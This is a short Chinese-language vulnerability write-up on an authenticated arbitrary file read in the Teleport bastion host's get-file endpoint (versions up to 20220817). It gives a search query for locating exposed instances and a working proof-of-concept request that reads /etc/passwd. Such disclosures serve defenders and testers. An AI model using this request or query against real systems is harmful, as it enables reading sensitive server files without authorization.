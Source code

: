 # Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

```
Teleport Version <= 20220817
```

## 网络测绘

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](./images/202208241355622.png)

登录后使用POC验证

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![image-20220824135554806](./images/202208241355866.png)